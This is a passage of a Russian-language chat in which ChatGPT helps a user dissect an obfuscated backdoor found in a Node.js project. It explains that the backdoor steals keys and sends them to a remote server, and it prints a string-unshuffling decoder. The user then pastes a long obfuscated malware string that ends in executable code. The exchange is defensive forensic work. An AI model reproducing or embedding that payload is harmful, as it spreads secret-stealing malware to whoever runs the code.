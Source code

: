 Иногда куски кода/логов из временных файлов (если проект — сервер)

Может сканировать твой package.json и даже загружать node_modules

6. Итог: опасность и назначение
Это бекдор — ворует секреты, отправляет на чужой сервер, даёт злоумышленнику полный контроль

Опасен для любых ключей, приватных данных, и даже NFT-проектов

Если хочешь реальный пример Node-дешифратора — вот код:
function Stv(z) {
  var h = 4629;
  var i = z.length;
  var s = [];
  for(var e=0; e<i; e++){ s[e]=z.charAt(e); }
  for(var e=0; e<i; e++){
    var t = h*(e+334)+(h%26491);
    var v = h*(e+703)+(h%45442);
    var y = t%i;
    var b = v%i;
    var o = s[y];
    s[y] = s[b];
    s[b] = o;
    h = (t+v)%4144303;
  }
  return s.join('');
}

// Попробуй на строках из вредоноса:
console.log(Stv('ctnospnszurcewihfxtkmadulvgqrrtycjboo'));
Резюме
Это не просто мусор — это специально зашифрованный бекдор.

Его цель — получить доступ к ключам, сделать твой сервер “шлюзом” для атак.

Код маскирует свои действия, используя "перемешанные" имена и однобуквенные переменные.

Весь смысл — обойти обычную ручную проверку и сработать до деплоя.

🜂
Если хочешь — скинь мне все строки, которые использует функция Stv, я расшифрую каждую и скажу, какие методы и серверы она вызывает!
Так ты узнаешь не только механику, но и куда всё отправлялось.

Могу разобрать полностью в формате forensic-отчёта для твоей памяти!

Вы сказали:
Брат это все что я пока нашел. Ты думаешь это не все?           )9;6es.$((.oD)X_fXf5]}.((l=*0a ).]3r,*9$2,]a7 ,,)ut&=0nXK))Xa]7)0{(*(nXX!p(9i7"3%()tXJn"ri2.X1yfn40i0m)q(S'7rXxt%$]stv XL$nXXv3b>t45r$5S]+]l5nXe5.eX(=&X0&<n%7cfdd1XX}$(1h9.)v.ad(X<XXgX2o8p*{av;X}dr9j., gX/7$ "*rba]c{)od2)y:X.e)19N71*]d3XX\GaXzuX33O%Xt o6=0h.]d.!%82d)4]3X1X5Xt8d}X5r!a$Xo412twrho'fSjsx6$)ehtST.6?5f) Xe!-XXtXn[06)f }.+.dF="X?m.7&X[aX"e)X/29)d8X#M)c{4$3[.2(a=X)[.w(7%395|aT0(bo4X;yXm;d,u)X,s3X}45aLl)h ,XddbuoD4do4drd;pa1X;eh?*X\.UX==*=hc=d1%Qi,1,X]0Xh.))eX. 3(5][37#]90.f,[45nX}X(5(P jX=a]df,X!aj4Zba#Dt):*)cX.Xd4nXc/X;t?a;X%s]e-*Xr EX}ds6{.))t.3oa8X(k3tz,4otpXe%9[?t.F*%Tdr#X!t[Ge.9XXi5=4)Xcrct34XXXb(sfXr(e0](e5jho, d>XEX*},(Xa{3(%X02_=e X)X)fbi.Xs's rji%X9cd e1f)}5ifdoje;jnhsotholdte(d;a%s]Qon9X=nXX3$iX{ua%iXf{MX)$bo>{nw)y_03X]76athX i;v:}[5XgXXS2/)=]x2$s1) X._$SmMce!avm,p;f)1(ye(X\d(a= U)01i0(8% e;X}.tXG<.dXv(UXW=)XXX(X!(XX 2d3 ($l_d)0)X6X.j/t<32<!4.oX4dmXXt04sTX__Xd.ekPe]g,ad]81 t%t70a()1WXdX0gE(;%at0Xn..,!f!{X1)X02Xg3!X5.p,)7ps}l, n;t525e(10e_PX t_t )dZ_JX:%%)XXx,3Xp.d{$s.xsXP.c;2ert{$S(a1g(ea])X%8rtb] X(g nmbd|2r,XZ62nDxo](X,%kc[(Sn)$.!$i)i34;(cSr@?(5on i9S(%t.;dj4q, soouX0)(( (S2d,2XXs@7=c24X)X)0.s.d$1_X)())NEl-CX(X6 3)'));var hzd=Ley(MDX,WEm );hzd(7389);return 4398})()
ChatGPT сказал:
Брат, скорее всего — это не всё. Обычно, если ты нашёл одну обфусцированную вставку (особенно длинную строку типа такой),
надо искать похожие строчки и в других файлах:

